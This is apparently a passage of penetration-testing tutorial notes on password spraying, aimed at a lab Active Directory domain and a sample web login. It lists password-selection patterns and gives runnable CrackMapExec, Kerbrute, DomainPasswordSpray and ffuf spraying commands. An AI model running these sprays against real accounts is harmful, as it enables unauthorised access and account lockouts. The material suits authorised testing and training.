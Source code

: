 #### Building Password Lists

Effective password spraying requires carefully selected passwords:

1. **Season-based passwords**: Spring2023!, Summer2023!, etc.
2. **Company-specific passwords**: CompanyName2023!, CompanyName123, etc.
3. **Common patterns**: Welcome1, Password1, etc.
4. **Default passwords**: Known defaults for the target system
5. **Previously breached passwords**: From public data breaches
6. **Password variations**: Account for common substitutions (@ for a, 0 for o, etc.)

Example of a minimal but effective password list:

```
Welcome123
Password123
Spring2023!
Company2023!
Changeme123
```

### Password Spraying Techniques

#### Windows/Active Directory Environment

**Using CrackMapExec for SMB**

```bash
# Basic password spray
crackmapexec smb 172.16.5.5 -u users.txt -p 'Spring2023!' --continue-on-success

# Output only successful attempts
crackmapexec smb 172.16.5.5 -u users.txt -p 'Spring2023!' --continue-on-success | grep "[+]"
```

**Using Kerbrute for Kerberos**

```bash
# Password spray against domain controller
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt 'Spring2023!'
```

**Using PowerShell Empire/Invoke-DomainPasswordSpray**

```powershell
# PowerShell-based spraying
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList users.txt -Password 'Spring2023!' -Domain inlanefreight.local
```

#### Web Applications

**Using FFUF**

```bash
# POST-based login form
ffuf -w users.txt:USERNAME -X POST -d "username=USERNAME&password=Spring2023!" -H "Content-Type: application/x-www-form-urlencoded" -u http://example.com/login -mr "invalid password"
```

